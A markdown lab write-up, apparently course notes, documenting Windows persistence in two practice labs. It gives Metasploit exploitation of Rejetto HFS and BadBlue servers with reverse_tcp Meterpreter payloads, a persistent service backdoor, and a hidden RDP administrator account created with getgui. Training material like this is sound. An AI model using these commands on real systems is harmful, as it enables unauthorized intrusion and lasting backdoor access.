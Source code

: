 # 🔬Windows Persistence

## Lab 1 - Service

> 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> - Target IP: `10.2.20.244`
> - **Persistence** via services

```bash
nmap -sV 10.2.20.244
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49156/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation

```bash
service postgresql start && msfconsole -q
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
setg RHOSTS 10.2.20.244
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

- With the `Administrator` Meterpreter session, privilege escalation is not necessary.

### Persistence

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set LPORT 4444 # use a different port than the other session
sessions
set SESSION 3
run
```

- Successful maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.

![Metasploit - exploit/windows/local/persistence_service](5-post-exploitassets/image-20230429141841138.png)

- Kill all MSF sessions

```bash
exit
# Kill all sessions
sessions -K
sessions
	# No active sessions.
# Close msfconsole
exit 
```

- Regain access to the system

```bash
msfconsole -q

use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```

![](5-post-exploitassets/image-20230429142715572.png)

------

## Lab 2 - RDP

> 🔬 [Maintaining Access: RDP](https://attackdefense.com/challengedetails?cid=2142)
>
> - Target IP: `10.2.20.249`
> - **Persistence** via RDP and a backdoor user account

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.20.249
setg RHOST 10.2.20.249
workspace -a RDP_persistence
db_nmap -sV 10.2.20.249
```

```bash
80/tcp  open  http          BadBlue httpd 2.7
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?

# RDP 3389 is disabled
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows


getuid
	Server username: ATTACKDEFENSE\Administrator

# Get a stable Meterpreter session
pgrep explorer
migrate 3132
```

### [Enable RDP & New User](https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/)

- Use the **`getgui`** Meterpreter command to
  - Enable the `RDP` service
  - Create a new user & hide it from Win Login screen
  - Add it to `Remote Desktop Users` & `Administrators` groups

```bash
run getgui -e -u newuser -p attack_1234321
```

> 📌 New user's credentials are `newuser`:`attack_1234321`

![Meterpreter - getgui](5-post-exploitassets/image-20230429151339261.png)

- In a new Terminal TAB

```bash
xfreerdp /u:newuser /p:attack_1234321 /v:10.2.20.249
```

![xfreerdp](5-post-exploitassets/image-20230429151739158.png)

- The cleanup script provided to remove the added account can be run when the attacker is done with the current system

```bash
# In the Meterpreter Session
run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20230429.4245.rc
```

![Cleanup script](5-post-exploitassets/image-20230429152215357.png)

------

